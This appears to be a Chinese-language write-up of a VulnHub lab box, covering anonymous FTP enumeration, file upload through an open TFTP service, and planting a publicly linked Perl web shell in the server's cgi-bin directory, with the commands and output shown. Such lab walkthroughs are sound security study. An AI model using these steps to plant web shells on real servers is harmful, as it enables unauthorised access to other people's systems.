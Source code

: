 21端口可以匿名登录，69端口开放`tftp`服务

## FTP & TFTP

可以匿名登录，不能get文件

```ftp
ftp> ls
229 Entering Extended Passive Mode (|||1116|)
150 Connection accepted
drwxr-xr-x 1 ftp ftp              0 Nov 10 18:37 bin
drwxr-xr-x 1 ftp ftp              0 Nov 10 18:37 log
drwxr-xr-x 1 ftp ftp              0 Nov 10 19:32 root
226 Transfer OK
ftp> cd root
250 CWD successful. "/root" is current directory.
ftp> ls
229 Entering Extended Passive Mode (|||1117|)
150 Connection accepted
drwxr-xr-x 1 ftp ftp              0 Nov 11 11:57 cgi-bin
---------- 1 ftp ftp          14539 Oct 31  2012 index.html
226 Transfer OK
```

tftp服务不能查看文件

感觉`root`目录像是一个web目录，访问`http://192.168.27.7/index.html`，访问成功

那就利用`tftp`尝试是否可以上传文件

> tftp> put 1.php

```bash
┌──(root㉿kali)-[~/vulnhub/scream]
└─# curl http://192.168.27.7/1.php
<?php phpinfo();
```

可以访问到，但没有解析

web目录下还有`cgi-bin`目录

> `cgi-bin` 是一个通常用于存放 CGI（Common Gateway Interface）脚本的目录。
>
> 在 `cgi-bin` 目录中可以执行服务器端语言编写的脚本，如 Perl、Python、PHP

测试发现`perl`语言可以成功执行

## perl webshell

> https://github.com/rafalrusin/web-shell/blob/master/web-shell.pl

![image-20241111180851340](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241111180851340.png)

修改一下密码拿过来用，上传到`cgi-bin`目录下

```
tftp> put shell.pl cgi-bin/shell.pl
```
